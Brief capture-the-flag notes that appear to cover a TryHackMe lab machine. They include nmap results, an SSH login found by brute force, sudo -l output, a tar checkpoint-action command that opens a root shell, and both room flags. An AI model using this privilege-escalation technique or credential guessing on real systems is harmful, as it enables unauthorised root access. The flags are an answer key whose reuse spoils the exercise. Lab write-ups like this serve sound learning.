 21/tcp open  ftp     vsftpd 3.0.3 
ftp-anon: Anonymous FTP login allowed (FTP code 230) 
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0) 
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))                                                                                                                                    
OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 

users maby:
Edward, Ein, Jet, Spike - lin from tasks.txt

Found user:pass combo for ssh
[22][ssh] host: 10.10.155.42   login: lin   password: RedDr4gonSynd1cat3

flag 1 in ssh user.txt - THM{CR1M3_SyNd1C4T3}

lin@bountyhacker:/$ sudo -l
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User lin may run the following commands on bountyhacker:
    (root) /bin/tar


command for priv esc
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh

root.txt flag - THM{80UN7Y_h4cK3r}

